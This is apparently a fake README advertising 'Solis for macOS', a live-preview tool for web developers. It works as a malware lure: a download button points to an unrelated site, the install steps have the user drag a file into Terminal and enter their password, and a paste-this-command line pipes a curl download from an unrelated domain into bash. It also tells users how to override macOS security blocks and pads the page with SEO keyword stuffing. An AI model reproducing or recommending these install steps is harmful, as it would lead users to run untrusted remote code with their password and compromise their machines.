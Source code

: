 <p align="center">
  <img src="https://i.ibb.co/TxpnpbdB/1684334864-icon.webp" width="350" alt="Solis macOS Banner" />
</p>

<h1 align="center">Solis for macOS</h1>

<p align="center">
  🧪 Real-time live preview tool for HTML, CSS, and more. See your changes instantly across multiple responsive views on macOS.  
  <br><br>
  ✅ Apple Silicon Optimized  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/272" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20SOLIS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Solis for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/y2H1gYY/1670150688-1.jpg" alt="Solis Live Preview Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Solis for macOS?

**Solis** is a powerful real-time preview tool for web developers and designers working on macOS. Whether you’re writing HTML, CSS, or experimenting with JS snippets, Solis allows you to instantly view your work across multiple synced windows that simulate different devices and screen sizes.

It's especially useful for responsive web design, front-end development, and interface testing without needing to refresh or manually resize multiple browsers.

---

## ✅ Why Choose Solis?

- 🖥️ **Live Preview for HTML/CSS/JS**  
- 📱 **Multiple Responsive Views at Once**  
- ⚙️ **Real-Time Synchronization**  
- 🧠 **Ideal for Web Dev & UI Workflows**  
- 🎨 **Visual Editing and Highlighting**  
- 🔄 **Instant Sync with Your Editor**  
- 🍎 **Fully Apple Silicon Compatible**  
- 🧩 **Works Seamlessly with Local Projects**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/hRvpq38D/1670150688-2.jpg" alt="Multi-device Preview UI" />
  <br><br>
  <img src="https://i.ibb.co/d46dVRQc/1670150690-3.jpg" alt="Live HTML and CSS Update Panel" />
</p>

---

## 🚀 Key Features

- Instant live preview for code changes  
- Support for multiple screen resolutions  
- Perfect for responsive design workflows  
- Drag-and-drop project setup  
- Works with external editors  
- Split view, overlay view, zoom modes  
- Lightweight and blazing fast  
- Native Apple Silicon support

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Solis manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Preview-HTML+CSS+LiveUpdate-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Solis – See Your Code Instantly

Thanks for using **Solis for macOS**.  
Code it. See it. Ship it faster.

---

## 🧭 Usage Context

Solis is made for developers and designers working on front-end projects.  
Use it offline for local file previews or integrate with editors for faster UI development.

---

## 🔍 Tags

```text
solis mac download, html css live preview tool mac, responsive website preview software macos, web design real-time editor mac, multi-device simulator macbook m1, solis app full version download mac, apple silicon live preview code tool, solis code sync responsive views, frontend testing live browser macos, instant html render tool mac, dev-friendly preview engine for mac, web ui visualizer mac utility, export and test responsive web ui mac, solis web developer companion mac, solis mac native real-time preview

